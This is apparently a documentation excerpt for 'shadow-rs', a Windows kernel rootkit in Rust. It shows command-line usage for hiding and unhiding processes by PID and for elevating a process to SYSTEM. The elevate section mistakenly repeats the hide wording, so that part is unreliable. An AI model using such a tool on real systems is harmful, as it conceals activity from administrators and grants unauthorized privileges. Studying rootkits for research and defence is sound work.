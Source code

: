 # Windows Kernel Rootkit in Rust (shadow-rs) Documentation

This documentation provides an overview of the shadow-rs rootkit project and instructions on its usage, features, and development process.


### Process

#### Hide / Unhide Process

Description:
This command allows you to hide or reveal specific processes on the system.

```cmd
shadow.exe process [hide | unhide] --pid <pid>
```

* `hide`: Hide the specified process.
* `unhide`: Unhide the specified process.
* `<pid>`: The PID of the process you want to hide or reveal.

Example of use:

```cmd
shadow.exe process hide --pid 1234
```

This command will hide the process with PID 1234.

#### Elevate Process to System

Description:
This command allows you to hide or reveal specific processes on the system.

```cmd
shadow.exe process elevate --pid <pid>
```

* `elevate`: Elevate the process
* `<pid>`: The PID of the process you want to escalate to system.

Example of use:

```cmd
shadow.exe process elevate --pid 1234
```

This command will hide the process with PID 1234.